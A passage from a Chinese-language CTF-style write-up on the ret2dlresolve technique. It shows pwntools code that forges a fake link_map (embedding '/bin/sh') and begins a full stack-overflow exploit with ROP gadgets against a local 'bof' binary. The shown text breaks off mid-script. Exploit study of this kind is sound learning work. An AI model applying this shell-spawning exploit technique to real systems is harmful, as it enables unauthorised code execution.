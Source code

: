 把一个函数的 got-0x8 的位置设置为 sym 表首地址，则它的 `st_value` 就是这个 got 上的值，且 `st_other` 的值恰好不为 0。

![image-20221104210238038](https://up-wind.github.io/assets/2022-10-24-ret2dlresolve/image-20221104210238038.png)

```python
    linkmap += p64(0x6)                             # 0x30 DT_SYMTAB
    linkmap += p64(known_func_plt - 0x8)
```

综上，`fake_link_map` 伪造 payload 如下：

```python
def fake_linkmap_payload(fake_linkmap_addr, known_func_plt, offset):
    # 0x00 DT_STRTAB
    linkmap  = p64(offset & (2**64-1))              # 0x00 l_addr

    linkmap += p64(0x17)                            # 0x08 DT_JMPREL
    linkmap += p64(fake_linkmap_addr + 0x18)        # 0x10 fake_rela
    
    # 0x18
    linkmap += p64((fake_linkmap_addr - offset) & (2**64-1))   # Rela -> r_offset
    linkmap += p64(0x7)                             # Rela -> r_info
    linkmap += p64(0)                               # Rela -> r_append

    linkmap += p64(0x6)                             # 0x30 DT_SYMTAB
    linkmap += p64(known_func_plt - 0x8)

    linkmap += b'/bin/sh\x00'                       # 0x40
    linkmap  = linkmap.ljust(0x68, b'A')
    linkmap += p64(fake_linkmap_addr)               # 0x68 DT_STRTAB_addr
    linkmap += p64(fake_linkmap_addr + 0x30)        # 0x70 DT_SYMTAB_addr
    linkmap  = linkmap.ljust(0xf8, b'A')
    linkmap += p64(fake_linkmap_addr + 0x8)         # 0xf8 DT_JMPREL_addr
    return linkmap

fake_link_map = fake_linkmap_payload(base_stage, write_got, l_addr)
```



完整 exp：

第一次 read 时布置好栈空间，准备第二次向 bss 段读入 fake_link_map 并返回 dl-resolve。

```python
#!/bin/python3
from pwn import *

elf = ELF('./bof')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

offset = 0x70+8
read_plt = elf.plt['read']

bss_addr = 0x601050
base_stage = bss_addr + 0x100

pop_rdi_ret = 0x4007a3
pop_rsi_r15_ret = 0x4007a1
plt_load = 0x400506  # jmp got[2]

p = process('./bof')
p.recvuntil('\n')
payload  = b'a'*offset
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(pop_rsi_r15_ret)
payload += p64(base_stage)
```